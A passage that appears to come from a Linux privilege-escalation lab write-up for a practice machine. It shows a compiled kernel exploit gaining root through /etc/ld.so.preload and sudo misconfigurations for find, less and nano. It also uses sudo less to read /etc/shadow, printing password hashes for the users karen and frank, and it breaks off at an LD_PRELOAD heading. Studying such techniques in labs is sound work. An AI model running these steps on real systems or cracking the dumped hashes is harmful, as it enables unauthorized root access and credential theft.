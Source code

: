 ```bash
$ cd /tmp
$ gcc exploit.c
$ ./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
#
```


## Sudo

```bash
$ sudo -l
Matching Defaults entries for karen on ip-10-10-169-190:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-169-190:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
$
```

```bash
$ sudo /usr/bin/less /etc/shadow
..
..
..
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:18796::::::
ubuntu:!:18796:0:99999:7:::
lxd:!:18796::::::
karen:$6$QHTxjZ77ZcxU54ov$DCV2wd1mG5wJoTB.cXJoXtLVDZe1Ec1jbQFv3ICAYbnMqdhJzIEi3H4qyyKO7T75h4hHQWuWWzBH7brjZiSaX0:18796:0:99999:7:::
frank:$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::
```

### ld-preload

If `sudo -l` shows:

```
env_keep+=LD_PRELOAD
```
